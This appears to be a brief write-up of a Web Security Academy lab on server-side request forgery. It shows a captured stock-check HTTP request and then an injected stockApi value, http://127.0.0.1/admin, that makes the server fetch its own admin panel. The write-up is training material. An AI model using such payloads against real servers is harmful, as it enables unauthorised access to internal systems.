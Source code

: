 task : vist http://localhost/admin and delete the user carlos.

![image](https://user-images.githubusercontent.com/67979878/128199883-ca00f9cd-f475-48ca-b7e1-3ab8f60898fc.png)

when choosing any product and check stack request is :

```
POST /product/stock HTTP/1.1
Host: acbe1f561f9eb743800f0e9e00e6008e.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acbe1f561f9eb743800f0e9e00e6008e.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Origin: https://acbe1f561f9eb743800f0e9e00e6008e.web-security-academy.net
Content-Length: 107
Connection: close
Cookie: session=DIFO4Sb1IMaPRuQSCPL2PZ71ZUwbKEMU; session=uvAYcsCqazHR9tqN2HFGR1E0xvG7eTH4
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

as we can see in stockapi it sends requst to another host to return stack querey .

let's modify it 
`stockApi=http://127.0.0.1/admin`

![image](https://user-images.githubusercontent.com/67979878/128200459-31b390cf-21fa-4b8c-86e6-a15aaa040e48.png)
